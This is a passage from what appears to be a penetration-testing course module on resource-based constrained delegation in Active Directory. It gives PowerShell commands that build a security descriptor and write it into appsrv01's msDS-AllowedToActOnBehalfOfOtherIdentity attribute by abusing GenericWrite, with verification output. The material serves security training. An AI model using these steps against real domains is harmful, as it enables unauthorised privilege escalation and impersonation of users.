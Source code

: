 To do this, we must first create a new security descriptor with the correct SID. In the beginning of this module, we determined that the SID is the last portion of a security descriptor string so we can reuse a working string, replacing only the SID.

Fortunately, security researchers have discovered a valid security descriptor string that we can use as shown in Listing 37. We can use the _RawSecurityDescriptor_[6](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5486-6) class to instantiate a _SecurityDescriptor_ object:

```
PS C:\tools> $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

PS C:\tools> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

> Listing 37 - Creating a new SecurityDescriptor

With the _SecurityDescriptor_ object created, we must convert it into a byte array to match the format for the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property:

```
PS C:\tools> $SDbytes = New-Object byte[] ($SD.BinaryLength)

PS C:\tools> $SD.GetBinaryForm($SDbytes,0)
```

> Listing 38 - Converting the SecurityDescriptor to a byte array

After the _SecurityDescriptor_ has been converted to a byte array, we can use Get-DomainComputer to obtain a handle to the computer object for appsrv01 and then pipe that into Set-DomainObject, which can update properties by specifying them with -Set options:

```
PS C:\tools> Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

> Listing 39 - Setting msds-allowedtoactonbehalfofotheridentity

Remember that it is not normally possible to set the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property for an arbitrary computer account. However, since our _dave_ user has the GenericWrite access right to appsrv01, we can set this property.

We can also use this attack vector with GenericAll, WriteProperty, or WriteDACL access rights to appsrv01.

After writing the _SecurityDescriptor_ to the property field, we should verify it. We can do this by reading the binary version of it with Get-DomainComputer, then instantiating a _SecurityDescriptor_ object with _RawSecurityDescriptor_ and finally, displaying the DACL:

```
PS C:\tools> $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

PS C:\tools> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

PS C:\tools> $Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-3776646582-2086779273-4091361643-2101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
```